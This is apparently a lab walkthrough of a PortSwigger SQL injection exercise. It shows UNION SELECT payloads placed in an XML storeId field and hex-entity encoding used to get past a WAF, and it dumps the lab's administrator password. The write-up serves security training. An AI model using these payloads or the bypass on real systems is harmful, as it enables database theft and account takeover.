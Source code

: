 # Hi hackers, Today we will play this [LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Let's go discover our website:

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/37be3471-dbdf-4bb3-ab25-6d8493f67c64)


No there vulnerablity here.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/2bcfe6a4-99a3-4325-8860-256a1b76f8dc)

Ok Here we can exploit ```Check Stock``` button.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ae0b97bc-ff0a-4672-b398-8a5392781b17)


Ok We can add our payload inside ```<storeId>```

```
<storeId>
  1 UNION SELECT NULL
</storeId>
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8d523d84-0598-474d-8751-c0c63e4fcb00)


Hmmm WAF detected this attack :)

Ok Let's encoding this payload to bypass this fuck WAF :(

[Screencast from 2024-07-05 12:19:54 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/84b68950-5162-438b-b987-c5812e053bcf)


### WOoow we can exploit it . Let's go steal acccount of administrator , we will use this payload:


```
<storeId>
  <@hex_entities>
    1 UNION SELECT username||':'||password FROM users
  <@/hex_entities>
</storeId>
```


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ccd347f7-f1ec-40d1-a7cd-c6b57f688727)


Woow We got on Account of admin is ```administrator:y5swfqstminpfg0rwhk0```





















